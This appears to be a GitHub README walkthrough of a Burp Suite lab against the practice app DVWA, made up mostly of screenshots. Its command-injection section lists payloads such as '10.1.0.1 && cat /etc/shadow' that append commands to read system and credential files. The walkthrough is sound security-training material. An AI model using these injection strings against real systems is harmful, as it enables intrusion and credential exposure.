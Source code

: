 # Burp-Suite


# Scan a Web Server

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/6f04d67f-1e39-49ec-8c8e-d953fc6b8c0a)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/108b3145-d7e5-463d-8b32-27bf705202c8)



ni![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/b9f6d41a-8306-46d5-90d2-9a9f463c7765)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/19b1fe52-8f14-4529-9967-98e9cd56ce7f)

firefox /root/Downloads/dvwa.htm
![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/16fd0b67-6f21-43db-b17a-bd3eae4f7ba3)

# Configure an Interception Proxy

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/8a5d1490-0019-45f4-a5ad-2e825222b820)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/15f0fe69-3dd9-41d9-8b2b-e3237b20bd14)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/0599c22b-8825-4883-b713-6bcc16205f8b)


# Inspect Session and Header Data

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/cd6a2551-3ffb-4894-9f10-c9d7d80bdd19)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/6cf60464-5f6d-4de5-b33b-186cdd2cc18d)
![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/862573f0-a72e-45d6-a8c6-1f2781ccad9a)

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/bf46bfbe-2583-4dda-b0e9-d8892180c6b6)


You can also see the information you submitted via the browser.


Credentials and session information must be protected by encryption when they are transmitted over the network. The server should be configured with HTTPS and insist on a secure connection for the login page.
![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/f737ebf1-378d-4d28-aaed-02df5d6151e0)


# Test Command Injection

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/930055f5-1c54-4a63-8919-d7941fbf652c)


The developer of this web app has decided to allow users to access a command in the native OS. Has the developer limited users to the ping command only though?

Submit each of the following command sequences and note which work:

ls

10.1.0.1 && ls

1 && ps -e

10.1.0.1 && ps -e

10.1.0.1 && netstat -tlnp

10.1.0.1 && cat /etc/passwd

10.1.0.1 && cat /etc/shadow

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/78b63cb8-676e-4258-9433-cc28877719ad)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/a355ecb2-31f7-44f7-b572-ee83703928f7)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/b321d1ac-85cd-4d9e-8c9b-a3034f67d818)

You should be able to deduce that the developer is checking for the presence of a well-formed IP address but has not prevented additional command strings being appended.


Note from the output of the netstat command and the inability to read "/etc/shadow" that you are not root but we can confirm with this final sequence of commands.

10.1.0.1 && whoami

10.1.0.1 && getent passwd 0

10.1.0.1 && getent group root

![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/1fcd003f-795e-421f-abcd-b994fd24acc9)


![image](https://github.com/itzyezz/Burp-Suite/assets/105263523/9fc76fc6-7a53-4743-b63e-3122fcc31e79)

# Submit Fuzzed Input

